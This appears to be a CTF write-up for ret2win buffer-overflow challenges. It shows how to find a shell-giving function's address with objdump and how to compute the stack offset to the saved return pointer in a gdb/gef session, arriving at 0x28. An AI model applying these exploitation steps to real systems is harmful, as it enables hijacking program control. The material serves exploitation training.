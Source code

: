 All of these challenges are very similar so theirs no point in have 4 of the same writeups.
The general idea behind these challenges includes using a buffer overflow to overwrite a certain value to get a flag or a shell. This is usually done in a controlled manner by counting the offset in gdb and then writing the exact address. 

## How to get the address of a function
Sometimes we know which function we want to jump to because they will give us a shell or cat the flag. To find the address we just need to run the following command 
```bash 
objdump -d <binary name> | grep <Func Name>
```
EX: In csaw18_geit we can run the following command to get the address of the function. 
```bash 
 ~/turbo-octo-pancake/N/s/r/csaw18_gedit    main  objdump -d get_it| grep shell 
00000000004005b6 <give_shell>:
```
## How to find offset for overflow

This differs depending on what you are trying to do but this technique works most of the time. First, we open the file in gdb and then enter in a recognizable string to find. Once the program breaks as can use search-pattern to find the address of that string on the stack. Then we run info frame to find the address that the instruction pointer points to. We then subtract the two values to find the offset 
EX: Csaw18_Getit- Offset is 0x28
```gdb
gef➤  disassemble main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:     push   rbp
   0x00000000004005c8 <+1>:     mov    rbp,rsp
   0x00000000004005cb <+4>:     sub    rsp,0x30
   0x00000000004005cf <+8>:     mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:    mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:    mov    edi,0x40068e
   0x00000000004005db <+20>:    call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:    lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:    mov    rdi,rax
   0x00000000004005e7 <+32>:    mov    eax,0x0
   0x00000000004005ec <+37>:    call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:    mov    eax,0x0
   0x00000000004005f6 <+47>:    leave
   0x00000000004005f7 <+48>:    ret
End of assembler dump.
gef➤  break *0x00000000004005f1
Breakpoint 1 at 0x4005f1
gef➤  run
Starting program: /home/ex4722/turbo-octo-pancake/Nightmare/stack_smashing/ret2win/csaw18_gedit/get_it
Do you gets it??
STRING123

Breakpoint 1, 0x00000000004005f1 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffd9d0  →  "STRING123"
$rbx   : 0x0000000000400600  →  <__libc_csu_init+0> push r15
$rcx   : 0x00007ffff7f99800  →  0x00000000fbad2288
$rdx   : 0x0
$rsp   : 0x00007fffffffd9c0  →  0x00007fffffffdae8  →  0x00007fffffffde83  →  "/home/ex4722/turbo-octo-pancake/Nightmare/stack_sm[...]"
$rbp   : 0x00007fffffffd9f0  →  0x0000000000000000
$rsi   : 0x333231474e495254 ("TRING123"?)
$rdi   : 0x00007ffff7f9c4e0  →  0x0000000000000000
$rip   : 0x00000000004005f1  →  <main+42> mov eax, 0x0
$r8    : 0x00007fffffffd9d0  →  "STRING123"
$r9    : 0x0
$r10   : 0x77
$r11   : 0x246
$r12   : 0x00000000004004c0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffd9c0│+0x0000: 0x00007fffffffdae8  →  0x00007fffffffde83  →  "/home/ex4722/turbo-octo-pancake/Nightmare/stack_sm[...]"      ← $rsp
0x00007fffffffd9c8│+0x0008: 0x0000000100400600
0x00007fffffffd9d0│+0x0010: "STRING123"  ← $rax, $r8
0x00007fffffffd9d8│+0x0018: 0x0000000000400033  →   add BYTE PTR [rax+0x0], al
0x00007fffffffd9e0│+0x0020: 0x00007fffffffdae0  →  0x0000000000000001
0x00007fffffffd9e8│+0x0028: 0x0000000000000000
0x00007fffffffd9f0│+0x0030: 0x0000000000000000   ← $rbp
0x00007fffffffd9f8│+0x0038: 0x00007ffff7e00b25  →  <__libc_start_main+213> mov edi, eax
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4005e4 <main+29>        mov    rdi, rax
     0x4005e7 <main+32>        mov    eax, 0x0
     0x4005ec <main+37>        call   0x4004a0 <gets@plt>
 →   0x4005f1 <main+42>        mov    eax, 0x0
     0x4005f6 <main+47>        leave
     0x4005f7 <main+48>        ret
     0x4005f8                  nop    DWORD PTR [rax+rax*1+0x0]
     0x400600 <__libc_csu_init+0> push   r15
     0x400602 <__libc_csu_init+2> push   r14
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "get_it", stopped 0x4005f1 in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005f1 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern STRING123
[+] Searching 'STRING123' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6026b0 - 0x6026bb  →   "STRING123\n"
[+] In '[stack]'(0x7ffffffdd000-0x7ffffffff000), permission=rw-
  0x7fffffffd9d0 - 0x7fffffffd9d9  →   "STRING123"
gef➤  info frame
Stack level 0, frame at 0x7fffffffda00:
 rip = 0x4005f1 in main; saved rip = 0x7ffff7e00b25
 Arglist at 0x7fffffffd9f0, args:
 Locals at 0x7fffffffd9f0, Previous frame's sp is 0x7fffffffda00
 Saved registers:
  rbp at 0x7fffffffd9f0, rip at 0x7fffffffd9f8
### 0x7fffffffd9d0 - 0x7fffffffd9f8  = 0x28
```
